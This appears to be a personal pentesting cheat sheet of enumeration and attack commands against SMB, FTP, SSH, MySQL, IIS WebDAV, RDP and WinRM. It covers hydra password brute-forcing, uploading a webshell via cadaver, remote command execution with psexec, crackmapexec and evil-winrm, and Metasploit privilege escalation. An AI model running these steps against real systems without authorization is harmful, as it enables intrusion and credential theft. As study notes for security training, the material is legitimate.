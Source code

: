 **smbmap** connect and find shares and some times more access if you login with username and paswords       
With Metasploit you have a **smb_version** scanner

**smbclient -L [IP]** list of hosts     
**enum4linux**  my favorite tool    
**rpcclient -U “” [IP]** for null session

**FTP**

**ftp [IP]** to connect => don’t forget to try “Anonymous”  (check NMAP result)     
**hydra -L [wordlist from metasploit] -P [list of user] [IP] ftp**  
In NMAP you have a script ftp-brute     

**SSH**     

**ssh [user]@[IP]** to connect      
**hydra -l [user] -P /usr/share/wordlists/rockyou.txt [IP] ssh**

**MySQL**   

**mysql -h [IP] -u [user]** to connect  
**show databases;**     
**use [database];**     
with Metasploit => scanner **mssql_login**

``System-Host based attacks``   

*WINDOWS*   

*Microsoft IIS WebDAV*  
**davtest –url [URL/webdav/] -auth [username:password]** 
Will give you the extension you can uploads     
**cadaver [URL/webdav/]**  will allow you to connect (but will ask you the username and password)       
Then on the console of cadaver you write put [path of your webshell on your machine]        
on the /webdav/ on the website you click on the file you upload and will put commands on the search bar.      

SMB with psexec         
With Metasploit, you can find a SMB brute force tool **SMB_login**  
**psexec.py [Username]@[IP] cmd.exe**       



RDP     
Metasploit; **rdp_scanner**     
hydra with rdp://IP     

WinRM       
With Crackmapexec:       
**crackmapexec winrm $IP -u administrator -p [wordlist for passwords]**     
Once you have the password => you can use crackmapexec to execute commands on the remote machine.           
**crackmapexec winrm $IP -u [login] -p [password] -x “commands you want to execute”**   

With evil-winrm:        
**evil-winrm -u [user] -p ‘[password]’ -i $IP** We have a command shell now with this, also available with Metasploit   

*Windows Privilege Exploitation*        
On metasploit you have a module **local_exploit_suggester**, which gives you a good way to get privilege escalation.        
**getsystem** command on Metasploit can help you sometimes.     
You can find also this python script https://github.com/Pwnistry/Windows-Exploit-Suggester-python3 With this script you take the result of the command systeminfo in a text files.      
